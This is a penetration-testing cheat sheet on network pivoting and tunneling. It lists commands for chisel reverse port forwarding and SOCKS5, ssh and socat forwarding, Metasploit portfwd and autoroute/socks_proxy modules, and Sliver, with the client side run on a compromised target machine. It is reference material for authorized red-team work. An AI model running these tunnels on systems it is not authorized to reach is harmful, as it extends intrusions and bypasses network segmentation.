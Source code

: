 ```yaml
---
title: "Network Traffic Pivoting"
date: 2024-6-26
tags: ["pivot", "chisel", "ssh", "metasploit", "network", "socat", "port forward", "tunneling"]
---
```


### Tunneling

{{< tab set1 tab1 active >}}Chisel{{< /tab >}}
{{< tab set1 tab2 >}}ssh{{< /tab >}}
{{< tab set1 tab3 >}}socat{{< /tab >}}
{{< tab set1 tab4 >}}metasploit{{< /tab >}}
{{< tab set1 tab5 >}}sliver{{< /tab >}}
{{< tabcontent set1 tab1 >}} 

#### Start a local chisel Server

<div>

```console
# In our local Linux machine
./chisel server --reverse --port <LOCAL_PORT>
```

</div>

#### Ports forwarding

<div>

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:<TARGET_PORT>:127.0.0.1:<TARGET_PORT>
```

```console
# Mutiple ports fowarding, can be different targets in the same subnet
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

</div>

#### Socks5

<div>

```console
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```console
# Add to the end of the file
socks5 127.0.0.1 1080
```

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:1080:socks
```

```console
# Usage, in our local machine
proxychains4 curl http://127.0.0.1:1080
```

</div>

<small>*Ref: [chisel](https://github.com/jpillora/chisel)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# SSH port forwarding without spawning a shell
ssh -N -L <TARGET_PORT>:127.0.0.1:<TARGET_PORT> <USER>@<TARGET>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
# Any traffic go to port <TARGET_PORT> will be forwarded to <LOCAL_IP>:<TARGET_PORT>
./socat tcp-listen:<TARGET_PORT>,fork tcp:<LOCAL_IP>:<TARGET_PORT> &
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Ports forwarding

<div>

```console
# Add
portfwd add -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

```console
# Delete
portfwd delete -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

</div>

#### Socks5

<div>

```console
# First add routes to target subnet
use post/multi/manage/autoroute
```

```console
set session <ID>
```

```console
run
```

```console
# Then create socks proxy
use auxiliary/server/socks_proxy
```

```console
run
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

```console
socks5 start
```

</div>

{{< /tabcontent >}}

<br>

